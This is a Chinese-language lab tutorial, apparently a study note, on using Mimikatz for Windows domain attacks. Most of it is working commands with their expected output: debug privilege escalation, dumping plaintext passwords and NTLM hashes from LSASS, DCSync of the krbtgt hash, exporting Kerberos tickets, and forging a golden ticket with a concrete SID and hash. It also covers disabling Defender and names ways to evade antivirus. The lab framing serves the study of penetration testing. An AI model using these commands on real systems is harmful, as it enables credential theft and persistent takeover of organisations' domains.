










# Mimikatz
>Mimikatz 是域渗透中最重要的工具之一，它的核心能力是从 Windows 内存（LSASS 进程）中提取明文密码、NTLM 哈希和 Kerberos 票据。
## Mimikatz 简介
- 获取地址	https://github.com/gentilkiwi/mimikatz/releases
- 运行权限	需要管理员权限（本地管理员或域管理员）
- 常见用途	抓密码、哈希传递、票据传递、黄金票据/白银票据、DCSync
- 杀软检测	极高（几乎所有杀软都会拦截），实验环境需关闭 Defender 或添加排除项


## 核心模块速查
Mimikatz 的核心功能集中在几个模块：
| 模块 | 功能 | 典型命令 |
|------|------|----------|
| privilege | 提权（第一步） | `privilege::debug` |
| sekurlsa | 从 LSASS 内存读取凭证 | `sekurlsa::logonpasswords` |
| lsadump | LSA 数据库操作（DCSync） | `lsadump::dcsync /user:krbtgt` |
| kerberos | Kerberos 票据操作 | `kerberos::golden`（黄金票据） |
| crypto | 加密相关操作 | `crypto::certificates` |

>⚠️ 所有命令都先在 mimikatz.exe 交互式 shell 中执行。
 ---

## 实验环境准备
1. 处理杀软拦截
    在实验环境中，临时关闭 Windows Defender 实时保护：
    - 打开 Windows 安全中心 → 病毒和威胁防护
    - 点击 管理设置
    - 关闭 实时保护
    >⚠️ 真实渗透测试中不能关闭杀软，需要用反射加载、混淆、白加黑等方式绕过。但我们目前只学功能，先关掉。
2. 验证工具可用
    
    进入 mimikatz # 提示符，说明工具运行正常。输入 exit 退出

## 核心步骤命令详解
1. 提权（必须第一步）
   ```cmd
   privilege::debug
   ``` 
   作用：获取 SeDebugPrivilege 权限，允许访问 LSASS 进程内存。
   常见失败原因：
   - 不是管理员权限 → 以管理员身份运行 CMD
   - 被杀软拦截 → 关闭 Defender 或添加排除项
   - 系统策略限制 → 需要其他绕过手段（实验环境不考虑）
   成功标志：
   ```
   Privilege '20' OK
   ```
   
2. 抓取凭证（最常用）
   ```
   sekurlsa::logonpasswords 
   ``` 
   作用：从 LSASS 进程内存中提取所有已登录用户的明文密码、NTLM 哈希、Kerberos 票据。
   **输出解读**：
    | 字段 | 说明 |
    |------|------|
    | msv | NTLM 哈希（LM/NTLM） |
    | tspkg | 终端服务凭据 |
    | wdigest | 明文密码（需启用 Wdigest） |
    | kerberos | Kerberos 票据 |
    | ssp | 安全支持提供者凭据 |
    ---

   **重点关注**：
   - msv 中的 NTLM 哈希（用于哈希传递攻击）
   - wdigest 中的 password（如果显示明文） 
    
   可以看到域管理员 Administrator 的 NTLM 哈希，以及当前登录用户的明文密码
3. DCSync（远程获取域哈希）
   在域成员机上运行，不需要登录域控：
   ```
   lsadump::dcsync /domain:lab.com /user:krbtgt
   ``` 
   **作用**：模拟域控同步行为，从域控拉取指定用户的哈希
   **成功标志**：返回 Object RDN: krbtgt 及其 NTLM 哈希。
   
   - Hash NTLM: c42da20b5de9741b15aa6bda3027588d
4. 导出 Kerberos 票据
   ```
   sekurlsa::tickets /export 
   ``` 
   **作用**：导出当前会话中的所有 Kerberos 票据（.kirbi 文件）。
   **输出**：在当前目录生成 *.kirbi 文件，用于票据传递（Pass the Ticket）
   
   查看生成的.kirbi文件
   
5. 票据传递
6. 黄金票据（权限维持）
    ```cmd
    kerberos::golden /user:testuser /domain:lab.com /sid:S-1-5-21-xxx /krbtgt:krbtgt的哈希 /ptt
    ```
    **作用**：离线伪造 TGT，获得域控权限。/ptt 表示将票据注入当前内存。
    **前提**：需要知道 krbtgt 的 NTLM 哈希、域名和域 SID。
    1. 信息收集
        
        
        - 域SID：S-1-5-21-3193787047-2941446939-830843178-500
        - Hash NTLM: c42da20b5de9741b15aa6bda3027588d
        - 域名：lab.com
    2. 票据注入
       ```
        kerberos::golden /user:testuser /domain:lab.com /sid:S-1-5-21-3193787047-2941446939-830843178-500 /krbtgt:c42da20b5de9741b15aa6bda3027588d /ptt
       ```  
       
    3. 验证票据是否生效
       在同一个 Mimikatz 会话中，先退出（exit），然后在同一个 CMD 窗口中执行`klist` 
       
7. 导出所有用户哈希（需要域控权限）
    在域控上以管理员身份运行：
    ```cmd
    lsadump::lsa /patch
    ```
    **作用**：从域控本地 SAM 和 LSA 策略中提取所有用户的 NTLM 哈希。
    **输出**：包含 Administrator、krbtgt、域用户等所有哈希。

